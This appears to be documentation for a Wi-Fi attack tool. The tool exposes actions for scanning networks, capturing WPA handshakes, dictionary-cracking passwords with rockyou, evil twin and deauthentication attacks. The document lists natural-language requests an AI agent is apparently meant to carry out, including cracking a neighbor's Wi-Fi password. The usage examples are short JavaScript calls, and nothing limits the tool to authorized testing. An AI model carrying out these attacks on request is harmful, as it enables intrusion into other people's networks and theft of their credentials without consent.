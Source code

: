 ## Output Schema
Returns attack results with success status, captured data, and detailed analysis information.

## Natural Language Access
Users can request Wi-Fi hacking operations using natural language:
- "Hack into the OfficeWiFi network"
- "Crack the password for my neighbor's Wi-Fi"
- "Perform a WPS attack on the router"
- "Capture handshakes from nearby networks"
- "Create an evil twin attack for testing"
- "Scan for vulnerable Wi-Fi networks"
- "Test the security of my home network"
- "Perform a deauthentication attack"

## Usage Examples

### Network Discovery
```javascript
// Scan for vulnerable Wi-Fi networks
const result = await wifi_hacking({
  action: "scan_networks",
  attack_type: "wpa2",
  duration: 120
});
```

### Handshake Capture
```javascript
// Capture WPA handshake for password cracking
const result = await wifi_hacking({
  action: "capture_handshake",
  target_ssid: "OfficeWiFi",
  target_bssid: "00:11:22:33:44:55",
  duration: 300,
  output_file: "./captured_handshake.pcap"
});
```

### Password Cracking
```javascript
// Crack captured handshake using dictionary attack
const result = await wifi_hacking({
  action: "dictionary_attack",
  target_ssid: "OfficeWiFi",
  wordlist: "./rockyou.txt",
  max_attempts: 10000,
  output_file: "./cracked_password.txt"
});
```
